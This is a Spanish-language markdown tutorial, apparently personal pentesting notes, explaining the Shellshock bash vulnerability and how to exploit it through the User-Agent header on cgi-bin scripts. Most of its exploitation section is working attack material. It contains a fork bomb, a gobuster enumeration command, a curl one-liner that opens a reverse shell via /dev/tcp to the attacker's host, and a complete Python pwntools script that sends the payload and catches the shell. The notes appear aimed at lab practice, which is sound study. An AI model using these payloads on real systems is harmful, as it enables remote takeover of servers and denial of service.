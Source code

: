 # ¿ Que es un **ataque ShellShock** ? 

Un ataque **ShellShock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática. 

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar porgramas maliciosos, etc. 

La vulnerabilidad ShellShock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de Shell. El problema radica en la forma en que Bahs maneja las variable de entorno. Los atacantes pueden inyectar código malicoso en estas variables de entorno, las cuales Bash ejecuta sin cuestion su origin o contenido. 

Los atacantes pueden explotar estas vulnerabilidades a través de diferentes vectores de atauqe. Uno de ellos es a través del User-Agent, que es la información que el navegador web envía al servidor web para indentifcar el tipo de navegador y sistema operativo qu está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

---
# Expotación 

Para explotar un ShellShock Attack, es importante tener en cuenta que para saber si este es vulnerable, es necesario probarlo, asi como tener en cuenta que este funciona para viejas versiones de bash. 

Existen [páginas webs](https://blog.cloudflare.com/inside-shellshock/) que enseñan a explotar dicha vulnerabilidad, esto suele ser posible a traves del **User-Agent** el cual recibe como valor un payload con la sig. estructura: `() { :; }; echo; <commando_to_execute>`. Este payload es simpilar al del [Fork Bomb Attack](https://en.wikipedia.org/wiki/Fork_bomb) el cual es un ataque de denegación de servicio con la estructura de: 
```shell 
:(){:|:&};:
# O 
fork(){
	fork | fork &
}; 
fork 
```
Por lo que se podría tramitar una petición curl de la sig. manera, teniendo en cuenta que mediante *gobuster* se encontro por fuzzing la URL **cig-bin**, sabiendo que siempre que veamos una ruta como esta es importante probar un **ShellShock Attack**: 

```shell
# Es importante al descubrir un dir cgi-bin, buscar archivos con la extensión pl o sh o cgi. 
gobuster dir -u http://<ip>:<port>/cgi-bin --proxy http://<proxy_ip>:<proxy_port> -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi
```

```shell
curl --proxy http://<proxy_ip>:<proxy_port> -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i &>/dev/tcp/<own_ip>/<port> 0>&1'" "http://<ip>:<port>/cgi-bin/status"
```
Así mismo, podríamos crear un script en python para entablar una consola interactiva o mismo para ejecutar comandos 

```python
#!/usr/bin/python3 

import sys, signal, requests, threading
from pwn import * 

# Ctrl + c

def ctrl_c(sig, frame): 
    print("\n\n[!] Saliendo...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars 

url = "http://192.168.1.38/cgi-bin/status"
squid_proxy = {'http': 'http://192.168.1.38:3128'}
lport = 443

# Bin 

def shell_shock(): #command 

    headers = {'User-Agent':'() { :; }; echo; /bin/bash -c "/bin/bash -i &>/dev/tcp/192.168.1.35/443 0>&1"'}
    #user_agent = {'User-Agent': '() { :; }; echo; %s' % (command)} 

    r = requests.get(url, headers=headers, proxies=squid_proxy)
    #print("\n\n\t(!) Output del comando: %s" % (r.text))

if __name__ == "__main__": 
    #command = input("Ingrese un comando a ejecutar: ")
    #shell_shock(command)
    try:
        threading.Thread(target=shell_shock, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()

    if shell.sock is None:
        log.failure("No se pudo establecer la conexión")
        sys.exit(1)
    else: 
        shell.interactive()
```
La libreria **pwntools/pwn** sirve para poder entablar una consola interactiva, entre otras cosas. Mientras que la libreria **threading** para ejecutar las cosas con hilos. 

#### threading.Thread().start()   ---->  **Iniciar un nuevo hilo**
#### target=() ----> **Función a ejecutar** 
#### args=() ----> **Argumentos a pasarle a la función** 

#### listen() ----> **Ponerse en escucha a espera de una conexión** 
#### lport, timeout=20 -----> **Puerto, Tiempo de espera** 
#### .interactive() ----> **Abrir la consola en base de la conexión** 

